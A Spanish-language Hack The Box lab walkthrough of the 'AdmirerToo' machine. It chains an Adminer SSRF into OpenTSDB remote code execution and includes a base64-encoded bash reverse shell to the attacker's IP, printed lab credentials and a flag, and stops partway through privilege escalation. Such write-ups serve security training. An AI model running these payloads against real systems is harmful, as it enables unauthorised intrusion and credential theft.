


#Author: José Luis Íñigo

#Nickname: Riskoo

#Bibliographical sources: S4vitar https://www.youtube.com/watch?v=YmZLdJRBKv0&

#Machine Admirertoo Hack the box

#OSCP Style : PHP SSRF RCE CVE PASSWORD 

#REUSE eWPT eWPTXv2 OSWE

#Skills: Subdomain Enumeration Adminer Enumeration SSRF (Server Side Request Forgery) in Adminer [CVE-2021-21311] Abusing redirect to discover internal services OpenTSDB Exploitation [CVE-2020-35476] [Remote Code Execution] Searching for valid metrics OpenCats PHP Object Injection to Arbitrary File Write Abusing Fail2ban [Remote Code Execution] (CVE-2021-32749) Playing with phpggc in order to serialize our data Abusing whois config file + OpenCats + Fail2ban [Privilege Escalation]


## Comnenzamos con el mapeado
Encontramos poco solo que el puerto 22 y 80 están abiertos

## fuzzing
Hemos seguido con fuzzing, en el normal no hemos conseguido nada interestante, hemos provado también por post

## dominio encontrado
Hemos visitado página por página incluso alguna 404 una vez que te pones encima del enlace aparece abajo que hay un dominio admirer-gallery.htb


Añadimos a /etc/hosts 
```bash
sudo nano /etc/hosts
10.10.11.137 admirer-gallery.htb
```


## Subdominios
Ahora que tenemos el dominio podemos usar gobuster para subdominios. Recordamos que gobuster es un script en go y que trabaja muy bien los sockets y peticiones

```bash
gobuster vhost -u http://admirer-gallery.htb -w /home/riskoo/Riskoo/paginas/diccionarios/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t 200
```


Añadimos tambien a /etc/hosts db.admirer-gallery.htb que hemos encontrado


## Abrimos burpsuite y controlamos ese login

```bash
auth%5Bdriver%5D=server&auth%5Bserver%5D=localhost&auth%5Busername%5D=admirer_ro&auth%5Bpassword%5D=1w4nn4b3adm1r3d2%21&auth%5Bdb%5D=admirer&auth%5Bpermanent%5D=1
```

## Analizamos la web database

- Miramos las tablas por si vemos algo interesante
- Vemos que hay una consola para Sql, hacemos diferentes pruebas por si por ahí nos da algo interesante.
  - select load_file("/etc/passwd")
  - probamos diferentes opciones 
  
Viendo los privilegios aparte de nuestro usuario conseguimos un hash, lo guardamos en credentials y vemos además que hay dos usuarios. Admirer y admirer_ro. Admirer con privilegios de selección y admirer_ro de uso
```sql
show grants;
```


-Vemos que la versión Admirer aparece como si no estuviese actualizado, así que buscamos información.


-   Encontramos que Adminer 4.7.8 es vulnerable a SSRF


```bash
Sinopsis
Adminer < 4.7.9 Falsificación de solicitud del lado del servidor
Descripción
La versión de Adminer instalada en el host remoto sufre una falla de falsificación de solicitud del lado del servidor (SSRF) a través de la página de error de Elasticsearch y ClickHouse en versiones que agrupan todos los controladores, esto puede permitir a los clientes realizar conexiones posteriores a sistemas/puertos arbitrarios y puede ser utilizado para eludir potencialmente los firewalls para identificar recursos internos y realizar escaneos de puertos. Tenga en cuenta que el escáner no ha probado estos problemas, sino que se ha basado únicamente en el número de versión autoinformado de la aplicación.
```

Seguimos indagando por si el creador de adminer vnran u otro hablan del tema. Conseguimos llegar a un pdf que nos da información sobre el SSRF y nos comenta algo así:

> Existe una víá potencial, podemos hacer pruebas para que el servidor nos liste contenido privilegiado


Aunque lo anterior no lo podemos ver directamente nosotros, podemos observar que hay 5 campos, donde el primero es elastic, si pasamos la petición de logueo por burpsuite podemos ver la petición y como lo hace.

Buscamos en google como ser'ia el auth para elasticsearch y nos pone que es elastic

Guardamos el exploit que aparece en el pdf a /exploits

- En systems ponemos elastic
- En server ponemos nuestra ip

Vamos a hacer un petición por burpsuite cuando hacemos el logueo pasándole los datos cambiados a elastic y nuestra ip

Aparte nos ponemos en escucha con netcat en el puerto 80
```bash
nc -nlvp 80
```


Vemos que se ejecuta una petción y la ida es que esta peticion podemos redirigirla a otro lado SSRF

Vamos a la carpeta exploits y montamos un servidor http en python por el puerto 8686
```python
python3 -m http.server 8686
```

🔴IMPORTANT❗🔴

El concepto es según lo que hemos leído del exploits tu usas el exploit pasandole la ip y el archivo que quieres redirigir que está en mi servidor, deberíá de aparecer en la zona del login.

>usamos python2 porque es en lo que está hecho, los otros dan problemas

He creado un archivo dentro del directorio que se llama prueba para poder llamarlo. Dentro aparece esto es una prueba.

```bash
python2 redirect.py -p 80 http://10.10.14.48:8686/prueba
```

Nos aparece este error porque no hemos capturado con burpsuite y poniendo el hack de elastic y nuestra ip


- 1º puerto escucha en python
- 2º interceptamos el loguin y cambiamos elastic y nuestra ip 10.10.14. 
48
- 3º lanzamos el script en python redirect.py como pone arriba
- 4º le damos en burpsuite a forward y quitamos la intercepción y deberíá de aparecer lo siguiente


## Hacer la misma redirección pero a su propia máquina

Cuando intentamos usar por ejemplo que sería digamos la primera prueba (recordar que hay que seguir los pasos de arriba , interceptar en burpsuite etc.), podemos observar que nos dice invalid credentials, por lo que no podemos hacer nada en ese aspecto. 


```bash
#importante la version de python
#importante el http y la barra final
 python2 redirect.py -p 80 http://localhost:80/
```
Algo que podemos hacer llegado este punto es hacer un nuevo escaneo de puertos pero sin forzar que sean los que están abiertos sino hacer que aparezcan los filtered quitando el --open

```bash
sudo nmap -p- -sS --min-rate 5000 -vvv -n -Pn 10.10.11.137 
```


Podemos observar que hay puertos filtrados por el firewall como el 4242.

La idea es ver si haciendo la misma prueba que antes con el puerto 80 cambiando de puerto si tiene esa aplicacion permisos de lectura.

```bash
 python2 redirect.py -p 80 http://localhost:4242/
```

Vemos que ahora nos está leyendo


De aquí podemos ver algunas cosas ya que es lo que nos devuelve el puerto 4242. Está lanzando un servicio **OpenTSDB**.

Buscando en google nos dice que OpenTSDB nos devuelve métricas de aplicaciones

Buscamos **OpenTSDB exploits** en google . Aunque no hemos podido ver que versión es la que tenemos vamos a suponer que es la versión que aparece al buscar el exploits.

Podemos ver que existe un [Remote Code Execution Issue #2051](https://github.com/OpenTSDB/opentsdb/issues/2051)


Disponemos de un PoC

```bash
Bypass Payload:

[33:system('touch/tmp/poc.txt')]

PoC:

http://opentsdbhost.local/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[33:system('touch/tmp/poc.txt')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json
```

Vamos a copiarnos apartir del q y le vamos a cambiar el poc.txt , vamos a cambiarlo por un ping a nuestro equipo 10.10.14.48

```bash
#importante, hay que meterle los datos urlencode por lo que los espacios son un %20 o un +
q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[33:system('ping+-c+1+10.10.14.48')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json
```

Nos vamos a poner en escucha con ctpdump

```bash
tcpdump -i tun0 icmp -n
```

Usamos el comando en python pero con la cadena de antes y vemos que pasa.

No olvidar todos los pasos ...


```python
python2 redirect.py -p 80 "http://localhost:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[33:system('ping+-c+1+10.10.14.48')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"
```


Vemos que está leyendo aunque parece un fallo, leyendo el último error... aparece **net.opentsdb.uid.nosuchuniquename** no such name for 'metrics':sys.cpu.nice ...

En nuestro servidor parece que esa métrica no existe, por lo que intentaríámos buscar otra.

Buscamos en google opentsdb list metrics stackoverflow 


Por ejemplo podemos ver que con api suggest podemos listar algunas cosas.

Vamos a dejar de lado el redirect de arriba porque parece que al no tener nuestro servidor esa metrica pues no podemos ir por ahí, pero si vamos a poner ahora la que hemos visto en la imagen de arriba.

🔴IMPORTANT❗🔴 Realmente lo interesante es que sabemos que opentsdb lista métricas y que con el exploit de python2 podemos hacer que ejecute cosas.

Vamos a ver si aparece con la metrica que hemos visto en stackoverflow

```bash
python2 redirect.py -p 80 "http://localhost:4242/api/suggest?type=metrics&q=sys&max=10" 
```


No está devolviendo nada, pero eso puede ser que estemos filtrando demasiado así que le vamos a quitar el q=sys de los parámetros y vamos a ver. Además aumentaremos el número de resultados para ver un listado mayor. Este tipo de cosas es posible que no funcionen en otros casos, según los parámetro podríamos jugar.

A tener en cuenta que según lo que vimos en la imagen de starckoverflow, esta cadena necesita los parámetros type,q y max

```bash
python2 redirect.py -p 80 "http://localhost:4242/api/suggest?type=metrics&q=&max=10" 
```



Una vez que hemos descubierto un tipo de métrica en su interior, podemos cambiar el **sys.cpu.nice** que nos dió fallo al principio por **http.stats.web.hits**

```python
python2 redirect.py -p 80 "http://localhost:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:http.stats.web.hits&o=&ylabel=&xrange=10:10&yrange=[33:system('ping+-c+1+10.10.14.48')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"
```



Conseguimos que nos devuelva el ping. Lo tenemos que ver desde tcpdump


## oneliner bash
```bash
#nuestra ip
# el puerto que queramos
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.48/443 0>&1'" | base64


> resultado --> YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC80NDMgMD4mMScK


A la cadena en base 64 que recibimos la usamos de la siguiente forma

# ponemos en escucha una terminal 
n -nlvp 443

#Si la cadena lo decodeamos y le decimos que luego utilice bash recibimos una consola de bash

echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC80NDMgMD4mMScK | base64 -d

>resultado --> bash -c 'bash -i >& /dev/tcp/10.10.14.48/443 0>&1'

# Si además decimos que lo ejecute como bash
echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC80NDMgMD4mMScK | base64 -d | bash
```


Como vemos por el puerto de escucha aparece una bash 

Ahora la ida es poner en el exploit esta cadena que hemos visto


```python
#recordar suistituir espacios por +
# no hemos dejado los espacios que solemos poner entre los |
# recordarq ue tienes que ejecutar desde el sitio donde tienes el exploit /maquinas/admire/exploits

python2 redirect.py -p 80 "http://localhost:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:http.stats.web.hits&o=&ylabel=&xrange=10:10&yrange=[33:system('echo+YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC80NDMgMD4mMScK|base64+-d|bash')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"
```

Vemos que de esta forma no escuchamos nada, así que miramos el ascci del + que es 2B y lo sustuituimos con el %delante

El problema viene creo porque dentro de la cadena ya hay + independientemente de los espacios por lo que esos espacios internos son los que cambiamos por 2B

```python
python2 redirect.py -p 80 "http://localhost:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:http.stats.web.hits&o=&ylabel=&xrange=10:10&yrange=[33:system('echo+YmFzaCAtYyAnYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC40OC80NDMgMD4mMScK|base64+-d|bash')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"
```

Recordar que hay que volver a hacer los paso...


Ya tenemos una consola operativa

# Preparación de la bash una vez detro del objetivo

Si ponemos tty miramos si estamos dentro. Si no hacemos estas cosas cuando hagamos control+c se nos va fuera, ademas que nos gustaría tener cierto dominio la bash

```bash
script /dev/null -c bash

#Con control+z dejamos de escuchar el puerto

stty raw -echo;fg     
# Con esto hemos conseguido reiniciar la configuración de la terminal en bash
reset xterm

#control l para limpiar no funciona pero porque puede valer diferente a xterm
export TERM=xterm

#miramos cuando vale la variable shell y hacemos que valga una bash

export SHELL=/bin/bash

#ver el número de columnas y filas
stty size

#poner el número de filas y columnas  como en mi pc 61 236
stty rows 61 columns 236

```

Vamos a por la flag 

```bash
opentsdb@admirertoo:/$ cd /home/
opentsdb@admirertoo:/home$ ls
jennifer
opentsdb@admirertoo:/home$ cd jennifer/
opentsdb@admirertoo:/home/jennifer$ ls
user.txt
opentsdb@admirertoo:/home/jennifer$ cat user.txt 
cat: user.txt: Permission denied
opentsdb@admirertoo:/home/jennifer$ 

```

Como podemos ver no tenemos permisos. 

```bash
opentsdb@admirertoo:/home/jennifer$ ls -l
total 4
-rw-r----- 1 root users 33 Jun 10 10:07 user.txt
```

user.txt solo lo pueden leer root y users

```bash
# listamos el grupo users
opentsdb@admirertoo:/home/jennifer$ cat /etc/group | grep users
#vemos que jennifer está en el grupo users
users:x:100:jennifer
```

## convertirnos en jennifer

Seríá empezar a trastear. En nuestro caso hemos entrado por entornos web por lo que una forma de ver es el servidor web, que en nuestro caso vimos al principio que era apache y vamos a ver desde donde tiran las webs.

Hay que recordar que podíamos entrar o en la web normal o por db....

```bash
opentsdb@admirertoo:/home/jennifer$ cat /etc/apache2/sites-enabled/000-default.conf 
```

Vemos las dos webs

```bash
  ServerName db.admirer-gallery.htb
        ServerSignature Email
        ServerAdmin webmaster@admirer-gallery.htb
        DocumentRoot /var/www/adminer

#y


        ServerName admirer-gallery.htb
        ServerSignature Email
        ServerAdmin webmaster@admirer-gallery.htb
        DocumentRoot /var/www/html


```

En nuestro caso desde donde hemos trabajado es desde el db.admirer-gallery.htb que vemos que está'en /var/www/admirer así que comenzamos un reconocimiento para ver "lo que sea XD"

Despues de investigar , vemos que dentro de /var/www/adminer/plugins/data hay una rchivo servers.php que cuando lo vemos, alguien comentó una clave. Hay una que si tenemos que es la de admirer_ro , pero ahora tenemos la de admirer.

```bash
opentsdb@admirertoo:/var/www/adminer/plugins/data$ ls
servers.php
opentsdb@admirertoo:/var/www/adminer/plugins/data$ cat servers.php 
<?php
return [
  'localhost' => array(
//    'username' => 'admirer',
//    'pass'     => 'bQ3u7^AxzcB7qAsxE3',
// Read-only account for testing
    'username' => 'admirer_ro',
    'pass'     => '1w4nn4b3adm1r3d2!',
    'label'    => 'MySQL',
    'databases' => array(
      'admirer' => 'Admirer DB',
    )
  ),
];
```

Vamos a intentar convertirnos en jennifer por si por casualidad funcionase algunad e las contraseñas.

Poniendo la contraseña de admirer hemos podido convertirnos en jennifer por lo que en principio ya podemos leer la flag

```bash
opentsdb@admirertoo:/var/www/adminer/plugins/data$ su jennifer
Password: 
jennifer@admirertoo:/var/www/adminer/plugins/data$ 

jennifer@admirertoo:/var/www/adminer/plugins/data$ cd /home/jennifer/
jennifer@admirertoo:~$ ls
user.txt
jennifer@admirertoo:~$ cat user.txt 
46e6d27eef5311d91ad1e0c4eec16434
jennifer@admirertoo:~$ 

```

# Bonus track

Ahora vamos a intentar convertirnos en root. Estando desde la ssh de jennifer si intentamos ver algo de root no podemos.


Vamos a hacer lo siguiente , haciendo pruebas hemos visto con netstat -nat que entre otros puertos está abierto el 8080 que antes no veíamos desde fuera. Vamos a hacer un local port fowarding conectándonos por ssh para controlarlo
```bash
netstat -nat
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN
```     

## local port forwarding
vamos a conectarnos haciendo un local port forwarding para que cuando nos conectemos hacer que el puerto 8080 de la máquina remota hacerlo accesible desde nuestro equipo por otro puerto , por ejemplo 7878  

```bash
# Nos conectamos pasando la pass y el local port forwarding al objetivo
sshpass -p 'bQ3u7^AxzcB7qAsxE3' ssh jennifer@10.10.11.137 -L 7878:127.0.0.1:8080

# Para comprobar desde una terminal nuestra usamos lsof para ver servicios corriendo por el puerto 

lsof -i:7878
COMMAND   PID   USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
ssh     31762 riskoo    4u  IPv6 117739      0t0  TCP localhost:7878 (LISTEN)
ssh     31762 riskoo    5u  IPv4 117740      0t0  TCP localhost:7878 (LISTEN)
```

Una vez hecho el local port forwarding podemos entrar en el puerto 8080 si miramos 127.0.0.1:7878


Probamos las diferentes credenciales típicas admin:admin ... 
Tenemos las credenciales jennifer: bQ3u7^AxzcB7qAsxE3


Buscamos en google información opencats exploit. Abajo de la web hemos localizado la versión 0.9.5.2 por eso es importante analizar la web y ver de donde puedes sacar información

Hemos encontrado una vulnerabilidad la cual necesita algunos tipos de permisos, por lo cual antes de ver a fondo la vulnerabiliad vamos a ver que permisos tenemos para usar opecats, directorios de subida etc..

Recordar que a la hora de buscar es necesario estar desde la raiz o pasárselo a la búsqueda

```bash
jennifer@admirertoo:~$ cd /
jennifer@admirertoo:/$ find \-name \*opencat\* 2>/dev/null    
./opt/opencats
./var/log/apache2-opencats
./var/tmp/systemd-private-c4be9526974a45c1b6185cc6e7e58b77-apache2@opencats.service-5faxtS
./sys/fs/cgroup/memory/system.slice/system-apache2.slice/apache2@opencats.service
./sys/fs/cgroup/pids/system.slice/system-apache2.slice/apache2@opencats.service
./sys/fs/cgroup/systemd/system.slice/system-apache2.slice/apache2@opencats.service
./sys/fs/cgroup/unified/system.slice/system-apache2.slice/apache2@opencats.service
./usr/local/sbin/a2ensite-opencats
./usr/local/sbin/a2enmod-opencats
./usr/local/sbin/apache2ctl-opencats
./usr/local/sbin/a2dismod-opencats
./usr/local/sbin/a2disconf-opencats
./usr/local/sbin/a2enconf-opencats
./usr/local/sbin/a2dissite-opencats
./run/apache2-opencats
./run/systemd/units/invocation:apache2@opencats.service
./run/lock/apache2-opencats
./etc/logrotate.d/apache2-opencats
./etc/default/apache-htcacheclean-opencats
./etc/systemd/system/multi-user.target.wants/apache2@opencats.service
./etc/apache2-opencats
./tmp/systemd-private-c4be9526974a45c1b6185cc6e7e58b77-apache2@opencats.service-qDsofc


#Podríamos incluso buscar en google pero probamos apache2-opencat que parece interesante

jennifer@admirertoo:/$ cd /etc/apache2-opencats/
jennifer@admirertoo:/etc/apache2-opencats$ ls
apache2.conf  conf-available  conf-enabled  envvars  magic  mods-available  mods-enabled  ports.conf  sites-available  sites-enabled
jennifer@admirertoo:/etc/apache2-opencats$ 


#Miramos la configuración
cat apache2.conf | grep -v "#" | sed '/^\s*$/d'

#Nos damos cuenta que el usuario y el grupo devel es el que lanza todo opencats
User devel
Group devel

#Miramos si devel existe y donde está
jennifer@admirertoo:/etc/apache2-opencats$ grep devel /etc/passwd
devel:x:1003:1003::/home/devel:/sbin/nologin

```
Como veremos en el script para atacar opecats atacan a /var/www el cual es root

```bash
ls l /var/www
drwxr-xr-x 3 root root 4096 Jul 22  2021 adminer
drwxr-xr-x 6 root root 4096 Jan 12 10:20 html
```

Buscamos algún archivo que tenga un usuario en este caso devel para poder usarlo
y vemos que no hay ningun usuario, posteriormente buscamos dos directorios con el -type d cuyo grupo sea devel

```bash
jennifer@admirertoo:/etc/apache2-opencats$ cd /
jennifer@admirertoo:find -user devel 2>/dev/null
jennifer@admirertoo:/$ find -group devel -type d 2>/dev/null
./usr/local/src
./usr/local/etc
```

"De momentos" esos archivos no nos interesan , seguimos investigando


https://www.youtube.com/watch?v=YmZLdJRBKv0&t=4886s


